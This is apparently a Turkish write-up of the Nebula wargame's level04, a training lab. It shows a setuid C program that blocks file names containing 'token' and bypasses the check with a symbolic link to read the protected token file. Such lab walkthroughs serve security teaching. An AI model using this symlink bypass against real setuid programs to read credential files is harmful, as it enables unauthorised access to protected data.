

```bash
ssh level04@192.168.154.137 # [nebulaIP]
```
Bu seviyede aşağıdaki gibi bir kod umuz var bununla token adlı dosyanın içerini okumamızı istiyor. 
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```
Koda gelecek olursak komut satırı argümanı olarak dosya ismi alıyor eğer isim token sa programdan çıkıyor. Seviyede bu durumu atlatıp token ın içeriğini program aracılığıyla okumamızı istiyor.

> programın suid biti atanmış ve token da okuma izni yok.

Bu durumu token ın farklı bir isimde sembolik linkini alarak atlatabiliriz.

```bash
ln -s /home/flag04/token /tmp/t
./flag04 /tmp/t
```


